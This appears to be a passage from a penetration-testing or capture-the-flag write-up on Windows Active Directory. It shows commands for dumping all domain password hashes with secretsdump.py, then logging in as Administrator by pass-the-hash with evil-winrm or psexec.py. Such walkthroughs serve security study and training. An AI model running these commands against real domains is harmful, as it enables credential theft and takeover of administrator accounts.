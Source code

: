 We could dump all hashes using ```secretsdump.py``` script, if our user have the privileges to retrieve all of the password hashes including the administator’s hash.
<br>

```
secretsdump.py <domain name>/<username>:<password>@<target ip>
```
then we could login using the dumped administrator hash:

```
evil-winrm -i <target ip> -u Administrator -H <the admin hash>
#OR
psexec.py <domain>/administrator@<target ip> -hashes <the admin hash>
```
